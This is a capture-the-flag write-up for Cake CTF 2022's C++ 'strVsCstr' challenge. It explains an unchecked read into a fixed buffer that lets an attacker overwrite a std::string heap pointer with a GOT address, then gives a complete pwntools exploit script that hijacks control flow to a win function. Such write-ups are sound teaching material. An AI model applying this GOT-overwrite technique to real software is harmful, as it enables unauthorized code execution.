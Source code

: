 ```yaml
---
layout: post
readtime: true
tags: [got-overwrite,partial-relro,cpp,string]
---
```

### Attachments : [chall](https://github.com/0xSh4dy/ctf_writeups/raw/master/cake-ctf-2022/strVsCstr/chall) , [main.cpp](https://github.com/0xSh4dy/ctf_writeups/raw/master/cake-ctf-2022/strVsCstr/main.cpp)
<br>

So, this was an interesting challenge on CPP pwn from Cake CTF. This was the first time I tried my hands on cpp pwning. 

First of all, let's have a look on the security features
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
Partial RELRO and No PIE! Interesting.

Analyzing the source code of this challenge, we can easily spot a buffer overflow. 
```cpp

struct Test{

char* c_str() { return _c_str; }
...
private:
    char _c_str[0x20];
    std::string _str;
}

...
case 1: // set c_str
        std::cout << "c_str: ";
        std::cin >> test.c_str();
        break;
```
So, the program is reading data into `_c_str` without any size check which can be used to cause a buffer overflow. 

Now, let's drop the binary in gdb and add some random data.

<img  src="https://github.com/0xSh4dy/ctf_writeups/raw/master/cake-ctf-2022/images/strVsCstr_1.png"/>


<img  src="https://github.com/0xSh4dy/ctf_writeups/raw/master/cake-ctf-2022/images/strVsCstr_2.png"/>

Interesting. It is clear that `std::string` is stored in the heap and a pointer to that chunk is stored at `0x7fffffffdd20`, just after the buffer `_c_str`. User data will be read into that chunk whenever `std::cin>>test.str();` is called. We can use the buffer overflow on `_c_str` to replace the pointer to a heap chunk with a GOT address. After that, calling `std::cin>>test.str();` would read user supplied data into that particular GOT address. One suitable GOT entry is `_ZStlsIcSt11char_trait@GLIBCXX_3.4.21` i.e `0x404040`. This will be executed whenever `std::cout << "str: " << test.str() << std::endl;` is called i.e option 4.
Now, let's perform a GOT overwrite to make the pointer at `0x404040` point to `Test::call_me` i.e `0x4016de`.

```py
#!/usr/bin/env python3
from pwn import *
elf = context.binary = ELF("./chall")
# p = elf.process()
# gdb.attach(p)
# 
p = remote("pwn1.2022.cakectf.com",9003)

def set_str(data):
	p.sendlineafter("choice: ","3")
	p.sendlineafter("str: ",data)

def set_cstr(data):
	p.sendlineafter("choice: ","1")
	p.sendlineafter("c_str: ",data)

def get_str():
	p.sendlineafter("choice: ","2")
	return p.recvline()[:-1]

def get_cstr():
	p.sendlineafter("choice: ","4")
	return p.recvline()[:-1]


set_str('0'*20)
set_cstr(b'a'*32+p64(0x404040))
set_str(p64(0x00000000004016de))
p.sendline('4')
p.interactive()
```
<img  src="https://github.com/0xSh4dy/ctf_writeups/raw/master/cake-ctf-2022/images/strVsCstr_3.png"/>

### References
<a href="https://ptr-yudai.hatenablog.com/entry/2021/11/30/235732">https://ptr-yudai.hatenablog.com/entry/2021/11/30/235732</a>
<br>
<a href="https://www.slideshare.net/AngelBoy1/pwning-in-c-basic">https://www.slideshare.net/AngelBoy1/pwning-in-c-basic</a>
